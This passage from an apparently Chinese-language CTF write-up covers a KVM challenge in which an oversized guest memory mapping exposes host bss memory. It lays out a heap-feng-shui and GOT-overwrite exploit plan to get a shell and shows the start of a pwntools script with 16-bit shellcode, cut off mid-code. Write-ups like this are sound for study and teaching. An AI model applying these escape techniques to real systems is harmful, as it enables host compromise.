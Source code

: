 然后可以导入到ida中，然后设置相关变量的类型为目标结构体即可：

![image](https://xuanxuanblingbling.github.io/assets/pic/kvm/head.png)

## 漏洞利用

漏洞很明显，基本与[Confidence2020 CTF KVM](https://www.anquanke.com/post/id/254790)一致，就是映射内存范围过大，导致guest代码能访问到宿主机的bss段中的其他变量。通过题目中的寄存器设置，如下，可以看出来真的是非常纯粹的初始化，因此此时的虚拟出来的intel CPU处于实模式，因此应该使用16位的shellcode：

```c
ioctl(v5, 0x8090AE81uLL, &regs);              // KVM_GET_REGS
regs.rip = 0LL;
regs.rsp = 0x4000LL;
regs.rflags = 2LL;
ioctl(v5, 0x4090AE82uLL, &regs);              // KVM_SET_REGS
ioctl(v5, 0x8138AE83uLL, &sregs);             // KVM_GET_SREGS
sregs.cs.selector = 0;
sregs.cs.base = 0LL;
ioctl(v5, 0x4138AE84uLL, &sregs);             // KVM_SET_SREGS
```

还有就是由于运行在kvm中的shellcode无法和攻击者直接远程交互，所以无法将内存信息直接泄露给攻击者，所以只能在shellcode中自行计算并写入到控制流劫持的位置。shellcode过程大致如下：

- 在最开始，输入name，passwd时，使用堆风水将未来第三次malloc回来的堆块扔到fastbin（0x20）里
- 读bss的dest泄露堆地址
- 由于没进入保护模式，访存只有1M的空间，所以每次爆破堆地址是否在1M范围里
- 爆破的具体方法为：检查不过时，主动做一个除零，引发的异常与正常hlt结束打印不同
- 爆破后，通过读写堆块泄露libc，将one_gadget写入fastbin（0x20）+8
- 将puts的got-8写入dest，在memcpy时完成将one_gadget写入puts的got表
- one_gadget需要栈上有0，在shellcode前之前填充0
- 最终在puts调用时触发one_gadge拿到shell

另外由于readline对于堆操作的比较混乱，并且与docker启动环境相关，所以务必使用docker后台启动，才能与远程环境保持一致。保持环境一致后，在操作一致的情况下，堆块的布局也相同，才能完成通过堆起始地址加上固定偏移完成对libc的泄露以及对fastbin的写入。简化的exp如下：

```python
from pwn import *
context(log_level='debug',arch='i386')
io = remote("20.247.110.192",10888)

shellcode = asm('''
.code16gcc
jmp main

.rept 0x50
.byte 0x00
.endr

main:
    // save heap start addr to stack
    mov eax, 0x7100             
    mov ebx, [eax]
    sub ebx, 0x603000
    push ebx                   

    // assert heap can access (1M, reserve 64k) 
    cmp ebx, 0xf0000          
    jc next
    mov ebx, 0
    div eax, ebx            # bug

next:
    // leak libc and calc one_gadgte (ecx:edx)
    mov eax,[esp]
    add eax, 0x1b48              
```